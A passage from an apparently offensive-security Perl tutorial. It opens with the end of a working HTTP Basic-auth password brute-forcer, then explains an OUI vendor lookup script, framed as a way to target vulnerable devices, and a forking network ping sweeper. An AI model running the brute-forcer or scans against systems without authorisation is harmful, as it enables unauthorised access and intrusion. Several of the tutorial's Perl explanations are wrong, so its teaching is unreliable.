    say "[*] Setting: User       -> $user";
    say "[*] Setting: Port       -> $port";
    say "[*] Setting: Pass-List  -> $file";
    say "[*] Setting: File       -> $file";
    open (PASSFILE, "<$list") || die "[-] Can't open the List of password file !";
    @PASSWORDS = <PASSFILE>;
    close PASSFILE;
    foreach my $P (@PASSWORDS) {
        chomp $P;
        $passwd = $P;
        print "\n [*] Trying password -> $passwd \n";
        &brute;
        };
    }

sub brute() {
    $authx = encode_base64($user.":".$passwd);
    print $authx;
    my $socket = IO::Socket::INET->new(Proto => "tcp",PeerAddr => "$host", PeerPort => "$port") || print "\n [-] Can not connect to the host";
    print $socket  "GET / HTTP/1.1\n";
    print $socket "Authorization: Basic $authx\n";
    print $socket "Connection: Close\n\n";
    read  $socket, $answer, 128;
    close($socket);

    if ($answer =~ /Moved/) {
        print "\n [~] PASSWORD FOUND : $passwd \n";
        print("[*] Finished scan at -> $hour:$min:$sec\n");
        exit();
    } 
}
```

<h5> Writing your own OUI identification utility tool to identify the vendor of an OUI </h5>

> What is an OUI

An OUI or a Organizational Unique Identifier is the hardware or physical address of a device, aka the MAC, it works in the same way. however instead of identifying the device it identifies the devices manufacture and chipset, which can sometimes be very very helpful in exploitation

> How can finding the OUI aid in exploitation

Finding the OUI can help in the case you want to exploit a certian device where the chipset or device manufacture has released a flaw in their systems out to the public but has not yet patched it, sometimes some companies will let users know there are bugs and security vulnerabilities in the device, and if people do not update their devices and you find their OUI is an older moldel, then you can specify an exploit to just that device 

> Why choose perl

In order to do this properly we will be itterating over a list which has a line count of 132 thousand and 131 lines of just pure hex values and vendor strings, perl is a great language for data typing like R is when running throughn or parsing through really large lists or files

> Building the tool 

This tool will not require much however, if you want to keep it updated and really build off of this it will take a little bit more understadning which we will get to later, i will teach you how to improove perl scripts like this and make them better than what their original code is. 

So the first thing to do is declare out header as always which you know by now, or should anyway. we will be using two libraries that are standard in perl, warnings and strict because of the amount of parsing we will be doing, we do not want our output to format weirdly or bug out and cause security issues ( which strict helps is by preventing us from having the ability to impliment dangerous features into the code as said far up )

if you come from any programming background in OOP languages or even some compiled languages you will underastand this code easily we will start by defining our header which looks like this 

```pl
use strict;
use warnings;

my $target_mac = shift or die "Usage\n\t./id_target \n";

printf "Address: %s, MAC Manufacturer: %s\n", $target_mac, oui_lookup($target_mac);
```

now before i go onto the main function and subroutine, i will first start by declaring why printf, alot of people dont use printf because its just a not so secure statement in languages like C, or FORTRAN in the case of binaries, however printf is one of the few formating statements you have in perl5, i believe raku has alot more statements but today this entire section is the newest version of perl which is perl5 ( despite raku being a revision of perl5 first called perl6 perl6 was renamed to RAKU due to the massive changes, which made them completely different languages )

printf in this case is best because we can format the subroutine with the print statement and also format the output, like the target mac is declared first and formatted with %s same as the MAC manufacturement statemement but just redirected to the format at the end or the second %s 

there is one thing new here and that is the shift statement which we have not practiced or talked about, the shift function of perl is quite literally i think one of the best inline functions ive come accross, while it has a very weird synopsis or syntax to it, it can become handy in many moments like this one, `returns the first value in an array, removing it and shifting the elements of the array list to the left by one` this acts alot like its native function POP however instead of taking out the last value of an array it takes the first value, so our shift here defined in our my target mac statement is shifting the OS arguments from 0 to 1 so we can properly pick up the OS or command line arguments, now if we try to make a list with this perl will completely ignore it which is another cool attribute to the shift function 

now moving onto the main function ( for reference the OUI list is named out.txt in this repo )

our main function OUI lookup

```pl
sub oui_lookup {
  my $mac_address = shift;
  $mac_address =~ s/:/-/g;
  my $oui = substr $mac_address, 0, 8;

  open (my $oui_file, '<', 'info_files/out.txt') or die $!;
  while (my $line = <$oui_file>)
  {
    if($line =~ /$oui/i)
    {
      my ($address, $manufacturer_name) = split /\t+/, $line;
      return "$manufacturer_name";
      last;
    }
  }
  return "Unknown";
}
```

to a smaller perl dev this looks scary i get it it kinda is but its easy i promis XD, now when we start the function we start again by using the shift method to define our mac address or mac target we want to find the vendor of, then we define $mac_Address =~ and some random shit, well thats actually not just random characters that is how you define a substring with a global regex pattern 

so when we move past the =~ or `Perl binding operator` we start with `s` and end with `g` `g` stands for global and `s` stands for  start as an example then in between the / / is our regex string the syntax is as follows 

```pl
$string =~ s/regex/replacement/g;
```

the `-` is our replacement value and `:` is our regex string

this will be how we find the vendor and match it up to the file 

when we move past this we see a open function which is defined as follows 

```pl
open (my $oui_file, '<', 'info_files/out.txt') or die $!;
while (my $line = <$oui_file>)
```

now this is simple to understand, another cool thing about the usage of my is the factor you can define them anywhere and they are seen by any class or function or sub routine or out body scripts, you can define a variable as my in write, print, sub, while, for, range, arrays, etc statements even logical statements and still use them in other functions without having that one subroutine to return or require a value upon calling it, so we take advantage of this by definint the OUI file as a file in the filepath 'info_files/out.txt' which is prepared or opened in read mode `<` once done we tell perl if an error happens then die `or die $!` and output with the standard error as to what happened

then we call the while loop 

which is then passed into a boolean logical statement 

```pl 
  while (my $line = <$oui_file>)
  {
    if($line =~ /$oui/i)
    {
      my ($address, $manufacturer_name) = split /\t+/, $line;
      return "$manufacturer_name";
      last;
    }
  }
  return "Unknown";
```

this part here will define line as the oui file, then split the OUI file into a regex pattern, finally binding it. once the script is done using the bind operator it defines the my $address and $manufacturename as a file falue, which is = to a split statement, it will split each line in the file and replace it with the regex pattern until it matches the correct value of the vendor, if it itterates through the entire list of mac nodes and addresses and finds something it will output with something like 

`Address: FC:58:FF:33:65:4A, MAC Manufacturer: Shen Zhen Shi Xin Zhong Xin Technology Co.,Ltd.`

if it does not it will return 

`Address: ff:ff:ff:ff:ff, MAC Manufacturer: Unknown`

now you have sucessfully built your own script to itterate through the list of manufacture assignments and find the brand or MANUFACTURER of a certian device by its MAC address.

the script should now look like this 

```pl
# OUI lookup for mac addresses
use strict;
use warnings;

my $target_mac = shift or die "Usage\n\t./id_target \n";

printf "Address: %s, MAC Manufacturer: %s\n",
  $target_mac, oui_lookup($target_mac);

sub oui_lookup {
  my $mac_address = shift;
  $mac_address =~ s/:/-/g;
  my $oui = substr $mac_address, 0, 8;

  open (my $oui_file, '<', 'path/to/oui/out.txt') or die $!;
  while (my $line = <$oui_file>)
  {
    if($line =~ /$oui/i)
    {
      my ($address, $manufacturer_name) = split /\t+/, $line;
      return "$manufacturer_name";
      last;
    }
  }
  return "Unknown";
}
```

# Exploring the relms of wifi cyber weapons with perl 

Since our last script we made and explained was pointing to the networking pentesting section lets dive deeper into this section then end with the web exploitation usages, the more i go on the more i think this repo will have more than 5 scripts? given how long they will be.

In this next section we will be making a host identification script which will arp for internet protocal addresses which are curently alive with the choice of four methods, one is ICMP, the second is syn, the third is udp, and the finale one will be tcp. Sometimes working with different methods will cause a target to respond quicker, and become apparent on our side that the host on that network is alive, i have found that ICMP on my network is the best method for host ping and identification since this is better for communication between the router and the devices on that network.

Now to start this script we will be using a new method to create code notes or script usages if the user does not input a certian field or required item for this script known as code command paragraphs, these can be used to create help menu's, help sides, script synopsis, lists, or command line arguments in perl, here is the following table of how these work before the tables is a list of example paragraphs that can be used with CCP ( Code Command Paragraphs )

<h5>Ordinay</h5>

```
Most paragraphs in your documentation will be ordinary blocks of text, like this one. You can simply type in your text without any markup whatsoever, and with just a blank line before and after. When it gets formatted, it will undergo minimal formatting, like being rewrapped, probably put into a proportionally spaced font, and maybe even justified.
```

<h5>Verbatim</h5>

```
Verbatim paragraphs are usually used for presenting a codeblock or other text which does not require any special parsing or formatting, and which shouldn't be wrapped.

A verbatim paragraph is distinguished by having its first character be a space or a tab. (And commonly, all its lines begin with spaces and/or tabs.) It should be reproduced exactly, with tabs assumed to be on 8-column boundaries. There are no special formatting codes, so you can't italicize or anything like that. A \ means \, and nothing else.
```


| Command starter and header |          Description and synopsis          |
| -------------------------- | ------------------------------------------ |
|          =pod              |                   =pod                     | 
|          =head1            |             =head1 Heading Text            |
|          =head2            |             =head2 Heading Text            |
|          =head3            |             =head3 Heading Text            |
|          =head4            |             =head4 Heading Text            |
|           =over            |             =over indentlevel              |
|           =item            |             =item stuff                    |
|           =back            |                  =back                     |
|           =begin           |             =begin format                  |
|           =end             |             =end format                    |
|            =for            |             =for format text...            |
|            =encoding       |             =encoding type                 |
|            =cut            |                  =cut                      |


```
To explain them each in detail:
=head1 Heading Text
=head2 Heading Text
=head3 Heading Text
=head4 Heading Text
Head1 through head4 produce headings, head1 being the highest level. 
The text in the rest of this paragraph is the content of the heading. For example:
```

see more at POD ( Plain Old Documentation ) at the offical perl docs -> https://perldoc.perl.org/perlpod#:~:text=Head1%20through%20head4%20produce%20headings,Attributes%22%20comprises%20the%20heading%20there.

Now before we start out script lets layout a description and head, now this has changed a bit since we will be using the =head etc tags to declare script synopsis and =cut tags to end the notes, and will be using newer methods. So here is our general script layout and summary 


<h5>Our script summary looks like this</h5>

```
This script will be a script to ping hosts and return the ones that responded back to the terminal, at an example range -> 10.0.0.1/24 

the range is pushed into arguments, we will not specify variables and make those out as argument flags but rather be using the shift argument to shift once into the vector then shift a second time specifying a secondary argument for the type or method to use ICMP, TCP, SYN, UDP

to do this we will be using the Net::Ping and the Net::NetMask and the POSIX library
```

<h5>Script layout</h5>

```
Shabang
    | Use of =cut, =head tags and script usages
                          | our push arguments
                                      | Creating a new scan range or start netmask
                                                      | Main function
                                                              | end 
```

So lets start out with the header 

```pl
#!/usr/bin/env perl

=head1 DOCUMENTATION 
  ping.pl <CIDR> method timeout

Methods:
  icmp, udp, tcp, syn

Examples:
  sudo perl ping.pl 10.0.0.1/24 icmp 10
  sudo perl ping.pl 10.0.0.0/24 tcp  3
=cut


use strict;
use warnings;
use Net::Ping;
use Net::Netmask;
use POSIX 'WNOHANG';

die "Usage:\n\tsudo perl $0 CIDR, method, \n" unless @ARGV;
my $netmask = Net::Netmask->new2(shift) or die Net::Netmask::errstr;
```

The first thing we note will be the `=head1 DOCUMENTATION`

then the `=cut`

so these you can think of as inline documentation or perls way of defining code notes that are not just one line as said above, so when we use this and someone needs a better direction other than the simple help output which is listed here 

```pl
die "Usage:\n\tsudo perl $0 CIDR, method, \n" unless @ARGV;
```

Now when we make these PODS or section in the code perl will not call it or see it as code but again as said above rather code notes now when we make the new netmask and call `NeT::Netmask->new2(shift)` we are calling the first argument which will be `ARGV[1]` ( ARGUMENT VECTOR #1 ) which is the first case or argument we use or in the scripts case the `CIDR`

the next part will be out main function or where the magic happens, to make this main function we need ro create a for loop which will constantly enumerate the netmask or range, and until it reaches the end of that CIDR it will not stop. then once done finding the hosts that are alive output them to the terminal and state them as live 

```pl
print "Starting scan on netmask  -> $netmask\n";


print "\n___COL_______HOST_________STATE____BOOL__\n";
for my $ip_address ($netmask->enumerate)
{
  my $parent = fork();
  unless ($parent)
  {
    # do this here to keep the msg sequence at 1 for each host pinged
    my $sender  = Net::Ping->new(shift || 'tcp', shift || 5);
    if ($sender->ping($ip_address))
    {
      if ($sender->{proto} eq 'syn')
      {
        # wait for ACK response or timeout
        exit 0 unless $sender->ack($ip_address);
      }
      print "Address -> $ip_address \t| Alive | TRUE  |\n";
    }
    exit 0;
  }
}
# wait on forked processes to finish
until (waitpid(-1, WNOHANG) == -1) {};
print "-----------------------------------------\n";
print "Exiting\n";
```

So first things first is we state or call the enumerate function from `Net::NetMask` to enumerate every possible IP address within the range we were given hence the 

```pl
$netmask->enumerate
```

and declares the output of that `$ip_address`, now under the for loop we call perls base function `fork()` to create a new process for every ping, when we run the fork we call 

```pl
my $sender = Net::Ping->new(shift || 'tcp', shift || 5);
```

to create the main ping function for the hosts, first thing you will notice is we use shift twice in this statement, one which has || tcp the next which has || 5 , this means that we will shift another one column to the right ( after shifting 1 already for the target CIDR range ), to activate the method, if there is no method defined we will make that method || 'tcp' then we shift another mark over to the timeout `NeT::Ping` takes 2 arguments here the method and the timeout which the second argument will be shift for the third time aka our timeout so when we run the script as an example

`sudo perl main.pl 10.0.0.1/24 icmp        3`
                   `| F Shift   |S shift    | T Shift `
                   
 Where F shift is the first shift we make, S Shift is the second shift, and T shift which is the final and third shift we make in the code 
 
 then we move onto calling the if sender statements 
 
```pl
if ($sender->ping($ip_address))
    {
      if ($sender->{proto} eq 'syn')
      {
        # wait for ACK response or timeout
        exit 0 unless $sender->ack($ip_address);
      }
      print "Address -> $ip_address \t| Alive | TRUE  |\n";
    }
    exit 0;
```

if the sender creates a ping request to the IP address and the sender protocal which is 

```pl
if ($sender->{proto} eq 'syn')
```

happens and becomes true ( this is our second shift argument taking place, if the sender had included something or an argument of syn then it will branch off into its own statement) then the function will wait for the sender to recieve and ACK or acknowledgment from the address which means the address or deivce with this address is alive and up. unless that `$sender` recieves an `acknowledgment` back from the host address it will exit which is the use case of unless in perl 

```pl
        exit 0 unless $sender->ack($ip_address);
```

if it does not equal syn it will pass and move onto the normal method or method you used and output the addresses in a column 

```pl
      print "Address -> $ip_address \t| Alive | TRUE  |\n";
```

once outside of the body of that function we use the WNOHANG function which waits for the PID to finish or the forked process and then we call exit 

```pl
until (waitpid(-1, WNOHANG) == -1) {};
print "-----------------------------------------\n";
print "Exiting\n";
```

The until statement will wait for the `waitpid` function to finish, it it does not finish it will not print the bottom to the table and the exit message, when the fork() subroutine is finished it will then exit. our full code now looks like the following 

```pl
#!/usr/bin/env perl

=head1 DOCUMENTATION 
  ping.pl <CIDR> method timeout

Methods:
  icmp, udp, tcp, syn

Examples:
  sudo perl ping.pl 10.0.0.1/24 icmp 10
  sudo perl ping.pl 10.0.0.0/24 tcp  3
=cut


use strict;
use warnings;
use Net::Ping;
use Net::Netmask;
use POSIX 'WNOHANG';

die "Usage:\n\tsudo perl $0.pl CIDR, method, \n" unless @ARGV;
my $netmask = Net::Netmask->new2(shift) or die Net::Netmask::errstr;

print "Starting scan on netmask  -> $netmask\n";


print "\n___COL_______HOST_________STATE____BOOL__\n";
for my $ip_address ($netmask->enumerate)
{
  my $parent = fork();
  unless ($parent)
  {
    # do this here to keep the msg sequence at 1 for each host pinged
    my $sender  = Net::Ping->new(shift || 'tcp', shift || 5);
    if ($sender->ping($ip_address))
    {
      if ($sender->{proto} eq 'syn')
      {
        # wait for ACK response or timeout
        exit 0 unless $sender->ack($ip_address);
      }
      print "Address -> $ip_address \t| Alive | TRUE  |\n";
    }
    exit 0;
  }
}
# wait on forked processes to finish
until (waitpid(-1, WNOHANG) == -1) {};
print "-----------------------------------------\n";
print "Exiting\n";

```

once we execute our program 

`sudo perl ping.pl 10.0.0.1/24 icmp 5`

we get something like 

```pl
___COL_______HOST_________STATE____BOOL__
Address -> 10.0.0.17    | Alive | TRUE  |
Address -> 10.0.0.16    | Alive | TRUE  |
Address -> 10.0.0.18    | Alive | TRUE  |
Address -> 10.0.0.20    | Alive | TRUE  |
Address -> 10.0.0.8     | Alive | TRUE  |
Address -> 10.0.0.113   | Alive | TRUE  |
Address -> 10.0.0.120   | Alive | TRUE  |
Address -> 10.0.0.207   | Alive | TRUE  |
Address -> 10.0.0.213   | Alive | TRUE  |
-----------------------------------------
Exiting
```

to see this payload is actually working we can use wireshark to analyze this 



